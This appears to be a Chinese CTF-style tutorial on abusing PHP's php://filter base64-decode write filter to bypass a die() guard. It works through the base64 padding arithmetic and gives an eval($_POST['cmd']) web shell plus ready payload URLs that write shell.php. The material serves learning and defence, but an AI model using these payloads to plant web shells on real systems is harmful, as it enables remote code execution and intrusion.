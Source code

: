 ![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_44_KcJejgIL.png)
## 分析
在了解了`filter`协议的情况下，我们来分析一下这个题，`$content`拼接了`$data`和`base64_decode($_GET['data'])`，在`$data`中，由于存在`die()`方法，而die() 函数的作用是输出一条消息，并退出当前脚本，意思是die()函数后的所有php代码都不生效，所以解这个题的核心是将`$data`变量污染，从而达到绕过`die()`函数，执行可控的php代码
### 0x1 base64 编码
[base64 编码/解码原理](https://byaaronluo.github.io/知识库/03.主机安全/03.Base64编码解码原理.html)
使用`php://filter`流的base64-decode方法，将`$content`解码，利用php base64_decode 函数特性去除`die()`函数
首先我们知道，base64编码中只包含64个字符(0-9,a-z,A-Z,+,/)，其中`=`为补位码也就是(`000000`) ，而PHP在解base64编码的时候，遇到不在其可识别的字符的时候，将会跳过这些字符，仅将合法字符组合成一个新的字符再解码
所以当`$content`被加上了`<?php die('no php'); ?>` 之后，就会有`< ? 空格 ' ; >`共计10个字符不能被识别而被忽略，最终被解码的字符只有`phpdienophp`，和我们传入的字符串
`phpdienophp`字符串只有11个字节，base64解码为4字节一组，再算上我们需要编码两次的shell`<?php phpinfo();?>` = `UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`(32字节)，首先传入的字符需要base64解码一次，所以`UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`解码为`PD9waHAgcGhwaW5mbygpOz8+`(24字节)，在filter的base64解码中，`24+11=35`，`35 *6 mod 24 = -6` 那么就是说还需要可被base64认识的1字节，这1字节只能添加在编码的shell前用来闭合前面的11字节字符，使其能够通过base64编码，即`xPD9waHAgcGhwaW5mbygpOz8+`,但是题目中对传入的参数进行base64解码了1次，那么垃圾数据应该填充在`UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`这里，这个双编码的字节数为32，解码后要多1位的话，那么就需要填充4个字节为36位（`32/4*3=24`，未填充的字符解码数，要能正常解码的情况下=> `24*9/6 = 36`，解码出来的字符数为 `36/4*3=27`）

> 因为base64只识别64个字符，所以从000000-111111，而ascii码是00000000-11111111，从ascii -> base64 或者从 base64 - ascii 取最小公倍数24，所以是3字节1组编码，4字节1组解码

填充垃圾数据为`aaaaUEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`，解码出来为`i��PD9waHAgcGhwaW5mbygpOz8+`,在这27位中，第2位，第3位不能被识别，那么filter的base64解码就只有25+11 = 36 位，然后就能利用成功了
那么对小马而言的话
```php
<?php eval($_POST['cmd']); ?>
// base64 双重编码
// UEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiSjJOdFpDZGRLVHNnUHo0PQ==
// 56 位，遇到==需要丢掉，所以需要-2 则 第一次解码出来的位数为 56/4*3-2=40
// 40+11=51,需要1位垃圾数据或者5位，或者4n+4-51(n>=12)
//垃圾数据aaaa解码出来3位，2位不可识别，只有1位可被识别
// 41+11=52 位 52/4*3=39
```
payload 
```php
http://127.0.0.1/2.php?path=php://filter/write=convert.base64-decode/resource=shell.php&data=aaaaUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiSjJOdFpDZGRLVHNnUHo0PQ==
http://127.0.0.1/2.php?path=php://filter/write=convert.base64-decode/resource=shell.php&data=aaaaaaaaaaaaaaaaaaaaUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiSjJOdFpDZGRLVHNnUHo0PQ==
```
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_45_LErRh2Xi.png)